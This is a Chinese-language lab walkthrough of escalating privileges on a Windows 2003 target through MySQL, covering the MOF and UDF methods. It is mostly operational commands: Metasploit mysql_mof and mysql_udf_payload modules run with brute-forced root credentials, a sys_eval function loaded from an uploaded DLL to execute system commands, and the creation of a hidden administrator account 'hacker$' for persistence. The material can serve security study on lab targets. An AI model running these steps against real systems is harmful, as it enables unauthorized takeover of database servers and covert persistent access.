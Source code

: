 # Windows提权-MySQL提权

**0x00 环境靶场**

|          | 靶机           | 攻击机         |
| -------- | -------------- | -------------- |
| 操作系统 | Win2003        | kali           |
| IP地址   | 192.168.12.139 | 192.168.12.135 |
| 开放端口 | 80，3306，3389 |                |

**0x01 MOF提权**

Managed Object Format，

1、获取数据库密码

```
# 爆破mysql数据库密码，结果为：root	qazwsx123
```

2、获取shell并提权

```shell
msfconsole

search mof

use exploit/windows/mysql/mysql_mof

set password qazwsx123

set username root

set rhost 192.168.12.139

run

```

3、权限维持

```shell
# 创建用户
net user hacker$ password /add

net localgroup administrators hacker$ /add

# 远程连接--需要开启远程桌面
rdesktop 192.168.12.139:3389

```

**0x02 UDF提权**

user defined function ，用户自定义文件函数

1、获取数据库密码

```mysql
# 爆破mysql数据库密码，结果为：root	qazwsx123
# 使用Navicat连接

show variables like '%priv%'        # 确定Mysql的写文件的权限，拥有任意路径的写权限
show variables like '%plugin%'        # 确定Mysql的插件目录，并由此推断HTTP的主目录
C:\PHPnow\MySQL-5.1.50\lib/plugin


select * from mysql.func where name = "sys_exec";    # 确认系统中并不存在sys_exec的函数，需要使用UDF自行定义
```

2、获取shell并提权

```shell
msfconsole

search udf

use exploit/multi/mysql/mysql_udf_payload

set rhost 192.168.12.139

set password qazwsx123

set username root

run
```

![image-20230301201105978](https://s2.loli.net/2023/03/09/5kmVAjRhXnuTHWP.png)

```shell
# 上传成功后，Navicat查看func表
# 创建用户自定义函数
create function sys_eval returns string soname "vXtkbOaz.dll";
```

![image-20230301201359690](https://s2.loli.net/2023/03/09/3yUivH8jBnDzMRK.png)

3、权限维持

```shell
# 利用函数执行命令
select sys_eval("ipconfig");
select sys_eval("whoami"); 

select sys_eval("net user hacker$ password /add"); 
select sys_eval("net localgroup administrators hacker$ /add"); 
```

